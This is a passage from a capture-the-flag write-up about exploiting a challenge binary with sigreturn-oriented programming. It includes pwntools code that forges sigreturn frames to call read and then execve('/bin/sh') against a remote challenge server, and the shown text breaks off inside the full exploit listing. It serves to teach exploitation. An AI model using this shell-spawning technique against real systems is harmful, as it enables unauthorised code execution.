 ```py
frame2 = SigreturnFrame()
frame2.rax = 0x3b  # execve
frame2.rdi = 0x402000 # pointer to "/bin/sh"
frame2.rsi = 0
frame2.rdx = 0
frame2.rip = syscall

second_payload = b"/bin/sh\x00"
second_payload += b"A"*0x100
second_payload += p64(vuln)
second_payload += p64(syscall)
second_payload += bytes(frame2)

log.info(f"{len(second_payload)=}")

input("press any key to continue")
p.sendline(second_payload)

p.recvuntil(b"/bin/s")
p.sendline(b"A"*14)

p.interactive()
```

An important thing to note is the input line which is used to have the solve script wait before sending the second payload. Without it, the second payload would be sent in the previous read buffer instead of the one we want. With the input line we can run the script and just click any button when it waits for input to send our payload at the correct time. We are also receiving until "/bin/s" this time, instead of "vuln!" as before. This is because the vulnstring was located at 0x402000, which of course was overwritten by our sigreturn-read.

Running our full solve script worked locally, and running it remote gave us the following flag.

!["getting flag"](./images/flag.png "getting flag")

## Full Exploit:
```py
from pwn import *

context.arch = 'amd64'

# p = process("./chall")
# gdb.attach(p)
p = remote("10.212.138.23", 51101)

syscall = 0x401038
vuln = 0x401000

frame = SigreturnFrame()
frame.rax = 0 # read
frame.rdi = 0 # stdin
frame.rsi = 0x402000 # address to read to
frame.rdx = 1000 # number of bytes to read
frame.rbp = 0x402100
frame.rsp = 0x402100
frame.rip = syscall
```